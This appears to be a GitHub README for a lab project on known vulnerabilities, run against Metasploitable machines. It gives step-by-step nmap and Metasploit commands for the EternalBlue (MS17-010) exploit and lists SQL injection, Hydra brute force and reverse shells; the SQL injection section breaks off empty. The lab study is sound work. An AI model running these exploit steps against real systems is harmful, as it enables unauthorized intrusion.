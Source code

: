 CAUTION: USING ANY OF THESE METHODS WITHOUT OWNERS CONSENT MAY/WILL RESULT IN PERSECUTION. ENSURE ALL PROPER PROCEDURES HAVE TAKEN PLACE BEFORE MOVING ON. 
[Under Construction]
___________________
The objective of this project was to familiarize myself with known vulnerabilities and
with said knowledge, be able to build counter measures/patch necessary apps & OS. 
___________________

 - Eternal Blue is one of my favorite vulns, it exposed how many devices could be easily infected with little to no effort by sending modified packets 
to the victim machine. Windows had a vulnerability within the OS server message block. This has crippled entire sectors of industrial sites when combined
with wannacry.

 - SQL Injection is a very common attack vector as many corporations/servers use SQL. 

 - Brute force ssh using hydra to show how basic ssh/telnet/ftp/sftp/mysql services can be brute forced when improperly configured or straight out vulnerable.

 - Reverse shells by "dropping USBs" (simulating a physical pentest)
   
--------------------------
HOW TO REPLICATE 
--------------------------
NOTE: I will be using metasploitable both win/linux to demonstrate most if not all vulns/exploits. 

- 💙Eternal Blue💙

   Step 1: 
   Once your windows server and kali/parrot machine is spun up, ensure the two machines can communicate with each other by either using netdiscover or Nmap. | sudo netdiscover -r ipaddress/prefix | OR | nmap -T4 -sV --version-all --osscan-guess -A -p 1-10000 ipaddress |
------------------------------
  Step 2: 
  Use Nmap to confirm the windows server is vulnerable by using one of the NSE scripts that come with Nmap, | nmap -p 139, 445 --script smb-vuln-ms17-010 ipaddress |
------------------------------
 Step 3: 
 Once verified, within your attacking machine spin up msfconsole and search for the smb-ms17-010 exploit and configure it for your victim machine. | msfconsole , use exploit/windows/smb/ms17_010_eternalblue , options , set rhost ipaddress , check , run |
------------------------------
Congrats you have used an exploit to gain unauthorized access!
------------------------------
- ✒️SQL Injection✒️ 
Step 1:






